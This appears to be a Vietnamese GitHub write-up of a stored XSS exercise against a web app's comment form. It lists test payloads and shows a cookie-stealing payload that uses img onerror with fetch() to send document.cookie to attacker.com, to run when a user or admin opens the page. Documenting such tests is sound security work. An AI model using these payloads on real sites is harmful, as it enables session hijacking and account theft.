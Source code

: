 ### Cách thức khai thác

**Payload:** ```<h1>XSS</h1>```, ```<script>alert('XSS')</script>```, ```<img src=x onerror=alert('XSS');>```...

**Hành động:** Đưa vào các tham số trong trường nhập liệu, bình luận, bài viết, hộp chat....

**Mong đợi:** Trang web trả về chức năng của payload( thẻ tiêu đề ```<h1>```, ```alert()```...).

**Mục tiêu:** Xác nhận trường input không được xử lý đầu vào, có thể khai thác.
 
 <p align="center">
<img width="801" alt="Ảnh chụp Màn hình 2025-03-31 lúc 15 12 58" src="https://github.com/user-attachments/assets/eb9dcfce-525e-40ce-bb42-6e925e4eb0fb" />
</p>

> Nhập payload vào các trường nhập liệu, ở đây là trường nhập tên và nội dung bình luận. Khi gửi lên CSDL thì nội dung payload được hiển thị lại trên trang web mà không thông qua bất kỳ cơ chế kiểm tra nào.

**Khai thác đánh cắp phiên đăng nhập**

<p align="center">
<img width="801" alt="Ảnh chụp Màn hình 2025-03-31 lúc 15 12 58" src="https://github.com/user-attachments/assets/57a5c8ed-829d-4c6d-836d-f4a50d7ba29a" />
</p>

> Chèn hành động **```fetch()```** để thực hiện đánh cắp cookie người dùng.
Payload: **```<img src=x onerror=fetch('http://attacker.com?cookie='+document.cookie);>```**. Trang web hiển thị thẻ **```<img>```** với nội dung của ảnh là hành độc **```fecth()```** đến web attacker.

<p align="center">
<img width="801" alt="Ảnh chụp Màn hình 2025-03-31 lúc 15 12 58" src="https://github.com/user-attachments/assets/19341a53-71a2-42c9-91b0-fbcb436264a3" />
</p>

> Chờ đợi người dùng hoặc admin truy cập vào trang web, đoạn script sẽ được thực thi và gửi cookie đến attacker.
